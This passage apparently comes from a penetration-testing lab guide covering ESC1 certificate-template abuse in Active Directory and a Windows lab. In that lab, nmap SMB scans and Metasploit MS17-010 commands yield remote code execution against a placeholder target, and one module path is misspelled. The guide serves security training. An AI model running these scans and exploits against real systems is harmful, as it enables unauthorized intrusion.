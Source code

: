 #### Why It Works
ESC1 allows attackers to exploit overly permissive certificate templates, granting unauthorized domain admin access via certificate enrollment.

#### Alternatives
- Exploit ESC1 manually using Certreq.exe for deeper understanding.

#### Resources
- [SpecterOps ESC1 Guide: https://posts.specterops.io/certified-pre-owned-d95910965cd2](https://posts.specterops.io/certified-pre-owned-d95910965cd2)

#### Notes
- Verify template permissions before attempting exploitation.

---

### Lab 3: Network Intelligence and Compromise of Windows Machines
#### Objective
Gather network intelligence and compromise a Windows machine using credential dumping.

#### Vulnerabilities
- Weak Credentials: Insecure password policies enable credential dumping.
- SMB Vulnerabilities: Unpatched systems allow remote exploitation.

#### Requirements
Target Windows machine must be accessible via SMB.

#### Steps
1. **Setup**
   - Ensure network connectivity to the target.
   ```bash
   ping <TARGET_IP>
   ```
2. **Reconnaissance**
   - Scan for open SMB ports and services. IPs should be present in the file.
   ```bash
   nmap -Pn -n -sT -p 88,135,137,389,445,1433,3389 -sV -sC --open -iL list-of-machines.txt
   ```
   - Alternatively,
   ```bash
    nmap -Pn -sV -p445 --script smb-vuln-ms17-010 -v <VICTIM_IP>
   ```
3. **Exploitation**
   - You can use msfconsole with the exploit:
   ```bash
   $ use auxilliary/admin/smb/ms17_010_command
   $ set RHOSTS <TARGET_IP>
   $ check
   $ exploit
   ```
   - You will gain RCE and obtain the flag from the desktop of the user Administrator.
